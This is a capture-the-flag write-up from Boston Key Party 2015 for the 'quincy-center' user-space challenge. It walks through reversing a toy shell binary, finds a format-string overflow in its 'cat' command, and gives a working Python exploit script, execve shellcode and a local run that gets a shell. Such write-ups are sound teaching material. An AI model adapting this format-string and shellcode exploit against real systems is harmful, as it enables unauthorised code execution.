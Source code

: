 ```yaml
---
title: 'quincy-center (uspace) write-up'
author:
  - Brian Pak (Cai)
layout: post
categories:
  - Pwn
ctf: Boston Key Party CTF
year: 2015
---
```

This is a write-up for **quincy-center** challenge, which is the first part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend. _You can also read from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-center-uspace-write-up/)_.


The binaries were packaged into a <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz" target="_blank">tar ball</a>.

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (uspace flag) 54.165.91.92 8899

The goal is to get "uspace" flag by exploiting the user space process.

Looking at the output of <span class="lang:default decode:true  crayon-inline">file</span> , these are all x86_64 binaries.

{% highlight bash %}
$ file uspace
uspace: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=98a138f60a8cfd6239de3181ef118776db40c8e6, stripped
{% endhighlight %}

Opening up in IDA Pro, we see that <span class="lang:default decode:true  crayon-inline">sub_401470</span> has the process loop that prompts "bksh> " like a shell environment.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_1.png" lightbox="quincy-center" title="bksh (uspace) command line parser" %}

First, we see that there are semaphore locking/unlocking for I/O operations, which don't seem to be too important at the moment. Then, the code to parse the command follows.

The general scheme for how the system works will be explained in the next series (kspace), so we will leave out the details of how things are implemented and maintained for now. Understanding the operations (create, list, remove, etc.) abstractly is good enough for exploiting the user space :)

There are total of 6 commands it understands: **ls**, **create**, **rm**, **cat**, **sleep**, and **exit**.

  * ls &mdash; lists files on the system
  * create &mdash; creates a new file on the system
  * rm &mdash; deletes a file on the system
  * sleep &mdash; sleep&#8230;
  * exit &mdash; exits the shell

Let's look at what **create** does for us.

The function takes the first argument to the command as a file name, and reads 256 bytes from the user for the content of the file that is being created. The buffer that is being read is large enough, so there's no overflow here. Then, it "calls" into the kernel "syscall" (via shared memory) with the syscall number 96 and its two arguments (file name & contents buffer). Everything seems normal and sane, so we move on.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_2.png" lightbox="quincy-center" title="create syscall (from uspace to kspace)" %}

Looking through more functions, we find a vulnerable code in **cat**, where it uses <span class="lang:default decode:true  crayon-inline ">sprintf</span> with the file contents buffer as its format string (aka trivial buffer overflow).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_3.png" lightbox="quincy-center" title="\"cat\" operation (open syscall followed by read syscall)" %}

**v12** is a stack buffer of size 256 bytes, and it's located **bp-0x118**. Also, we noticed that the NX was disabled on this binary, so we could easily jump to our buffer (such as one of our arguments for the command). Conveniently, the pointers to our arguments are on the stack, so we can do a simple pop/pop/ret gadget to get an arbitrary code execution!

<p class="filename">pwn_uspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

pop_pop_ret = 0x40110F

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + open('shell.bin').read()+ '\n').ljust(0x400, '#'))
{% endhighlight %}

&nbsp;

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

lea rdi, [rel binsh]
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall

binsh:
db '/bin/sh',0
{% endhighlight %}

&nbsp;

<p class="filename">Pwn it!</p>
{% highlight bash %}
$ python pwn_uspace.py
$ (cat ../uspace/payload; cat -) | sudo ./tz
bksh> bksh>
whoami
uspace
{% endhighlight %}

We have successfully got a shell as *uspace* user.
(Note that since the challenge servers are down, the exploitation is shown in a local setup.)

Once we have arbitrary code running on uspace, we can then perform syscalls that are exposed by the kernel, but not available through a user-space interface (such as syscall number 92, shown below).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_4.png" lightbox="quincy-center" title="kspace syscall handler" %}

The analysis of kspace & tz will be continued on the next post.

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]